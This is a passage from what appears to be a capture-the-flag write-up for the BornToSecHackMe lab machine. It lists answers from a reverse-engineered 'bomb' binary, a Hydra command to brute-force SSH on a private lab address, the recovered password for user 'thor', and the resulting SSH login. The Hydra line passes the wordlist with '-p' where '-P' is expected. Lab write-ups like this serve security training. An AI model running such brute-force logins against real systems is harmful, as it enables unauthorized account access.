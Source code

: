 ```c
    iVar4 = iVar4 + 1;
  } while (iVar4 < 5);
  return;
}
```











To resume:
```
Public speaking is very easy.
1 2 6 24 120 720
0 q 777
9
opuKMA
4 2 6 3 1 5
```

We now have a list of the possible results, and we will use [Hydra](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial) to bruteforce the SSH service with this wordlist:

```shell
┌──(fab㉿kali)-[~]
└─$ hydra -l thor -p wordlist.txt 192.168.56.101 ssh
<SNIP>

```

Our credentials are:
```
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

what's confirmed by the given hints:
```
HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

and we can connect via SSH as user thor:
```shell
┌──(fab㉿kali)-[~]
└─$ ssh thor@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.101's password:
thor@BornToSecHackMe:~$ ls -la
total 37
drwxr-x--- 3 thor     thor   129 Oct 15  2015 .
drwxrwx--x 9 www-data root   126 Oct 13  2015 ..
-rwxr-x--- 1 thor     thor     1 Oct 15  2015 .bash_history
```